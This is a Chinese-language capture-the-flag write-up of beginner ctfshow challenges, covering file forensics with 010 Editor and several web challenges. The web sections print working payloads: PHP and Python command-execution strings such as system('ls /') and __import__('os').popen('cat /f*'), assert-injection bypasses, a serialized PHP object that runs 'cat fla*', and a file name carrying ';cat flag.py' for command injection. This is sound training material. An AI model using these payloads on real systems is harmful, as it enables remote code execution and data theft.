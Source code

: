 ## 菜狗入门题writeups

[TOC]

##### 一、杂项签到

使用010 editor查找ASCII的ctf字段，找到flag。

##### 二、损坏的压缩包

使用010 editor查看文件类型，将文件格式改为png。

##### 三、谜之栅栏

使用010 editor的compare files功能找到不同字段。

##### 四、你会数数吗

使用010 editor的histogram功能对可见字符数进行排序。

<img src="./src/4.1.png" alt="4.1" style="zoom:50%;" />

##### 五、你会异或吗

使用010 editor的hex operations功能进行0x50异或得到正常图片。

##### 六、flag一分为二

额Mac上不好操作直接找了[wp](https://blog.csdn.net/m0_68012373/article/details/128960816)。

##### 七、我是谁

一道网页交互和图像处理的题目，看[脚本](./src/whoami.py)。

##### 八、you and me

盲水印的题目，直接用GitHub开源的BlindWaterMark-master。

##### 九、我吐了你随意

unicode零宽字符的题目，用[网站工具](http://330k.github.io/misc_tools/unicode_steganography.html)解码。

##### 十、web签到

按源代码要求用hackbar提交内容执行打印flag操作。注意使用cookie传参的时候对CTFshow-QQ群:=post_var进行url编码。

<img src="./src/web1.png" alt="image-20240117204139359" style="zoom:50%;" />

##### 十一、我的眼里只有$

```shell
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=system('ls /');
```

##### 十二、抽老婆

任意文件读取的题目，下载网页flask框架下的[app.py](./src/getwifi.py)，修改后本地部署，将本地的cookie中session中复制到远程，调用验证session的getflag函数`@app.route('/secret_path_U_never_know',methods=['GET'])`，也可以看网上另一种[方法](https://blog.csdn.net/weixin_45908624/article/details/128575744?ops_request_misc=&request_id=&biz_id=102&utm_term=ctfshow%20抽老婆&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-3-128575744.142%5Ev81%5Ekoosearch_v1,201%5Ev4%5Eadd_ask,239%5Ev2%5Einsert_chatgpt&spm=1018.2226.3001.4187)。

##### 十三、一言既出

```php
第一种payload	?num=114514);//		形成括号闭合后直接注释后面的内容
第二种payload	?num=114514%2b1805296		使用url编码的加号，在弱类型相等时只检测%前面的内容，后面则会执行加法
第三种payload	?num=114514);(19199810		形成括号闭合后assert("intval(114514);(19199810)==1919810")进行绕过
```

##### 十四、驷马难追

和十三相同，只是增加了过滤规则，使用url编码绕过即可，第二种payload也同样适用。

##### 十五、TapTapTap

相信自己的手速可以玩玩看（用手机玩很容易过），最终会得到路径，实际上直接看源代码就行了，找到游戏结束的输出用base64解码得到同样的提示信息。

<img src="./src/taptap.png" alt="taptap" style="zoom:50%;" />

<img src="./src/taptap2.png" alt="taptap2" style="zoom:50%;" />

##### 十六、Webshell

看一下源代码可知是反序列化的题目，那么构造简单的payload用[PHP在线运行](https://www.jyshare.com/compile/1/)进行序列化，对cmd进行payload传参查看源代码。

```php
$poc = new Webshell();
$poc->cmd='cat fla*';
echo serialize($poc);
//		O:8:"Webshell":1:{s:3:"cmd";s:8:"cat fla*";}
```

##### 十七、传说之下（雾）

既然是js就可以篡改数据，查看game.js源代码，在控制台将Game中的score改为通关分数即可查看到flag。

<img src="./src/snake0.png" alt="snake0" style="zoom:50%;" />

<img src="./src/snake1.png" alt="snake1" style="zoom:50%;" />

<img src="./src/snake2.png" alt="snake2" style="zoom:50%;" />

##### 十八、算力超群

```shell
payload：
/_calculate?number1=&operator=&number2=__import__('os').popen('cat /f*').read()
```

##### 十九、茶歇区

用hackbar好像操作不了，被迫投奔bp抓包，只是一道数值溢出的 ~~pwn~~ web题。先操作一次再把得到的post方法发给repeater，用以下的payload重发两次即可。但是e为什么是这么多个9还不清楚原因，貌似换成其他数量不能成功。

```PHP
a=0&b=0&c=0&d=0&e=999999999999999999&submit=%E5%8D%B7%E4%BA%86%E5%B0%B1%E8%B7%91%EF%BC%81
```

<img src="./src/rest0.png" alt="rest0" style="zoom:50%;" />

<img src="./src/rest1.png" alt="rest1" style="zoom:50%;" />

##### 二十、小舔田？

反序列化的题，看[payload](./src/serial.php)代码丢进去运行即可，得到的序列化参数为

```php
?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
```

##### 二十一、LSB探姬

源代码中可以明显发现文件上传漏洞，我们只需要在上传文件时添加想要执行的命令即可

```python
 cmd="python3 tsteg.py upload/"+f.filename
```

将一张图片pic.jpg修改命名为pic.jpg;cat flag.py即可。

